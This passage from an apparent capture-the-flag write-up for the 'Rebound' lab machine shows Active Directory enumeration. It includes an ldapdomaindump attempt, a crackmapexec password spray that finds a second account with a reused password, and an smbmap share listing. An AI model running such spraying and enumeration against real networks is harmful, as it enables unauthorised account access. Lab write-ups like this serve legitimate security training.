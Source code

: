 The `ServiceMgmt` group was also found to have some interesting privileges:

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Other than that, Bloodhound provided nothing of use since we aren't part of the `ServiceMgmt` group. I spent quite a bit of time thinking about how the user we compromised was called `ldap_monitor`, and what we could do with LDAP.&#x20;

Attempting to use `ldapdomaindump` shows that we need 'stronger auth':

{% code overflow="wrap" %}
```
$ ldapdomaindump 10.129.148.205 -u 'rebound\ldap_monitor' -p <TRUNCATED> --no-json --no-grep
[*] Connecting to host...
[*] Binding to host
[!] Could not bind with specified credentials
[!] {'result': 8, 'description': 'strongerAuthRequired', 'dn': '', 'message': '00002028: LdapErr: DSID-0C090259, comment: The server requires binds to turn on integrity checking if SSL\\TLS are not already active on the connection, data 0, v4563\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
```
{% endcode %}

Since we still had a username list, I thought to try password spraying with the password I found, and I found another user with the same password:

```
$ crackmapexec smb rebound.htb -u users.txt -p <TRUNCATED> 
<TRUNCATED>
SMB         rebound.htb     445    DC01             [+] rebound.htb\oorend:<TRUNCATED>
```

This user does have access to more shares:

```
$ smbmap -u 'oorend' -p <TRUNCATED> -H rebound.htb
[+] IP: rebound.htb:445 Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

At this stage, I kept thinking about **why** the user we could compromise is called `ldap_monitor`, until I googled a bit more about it.
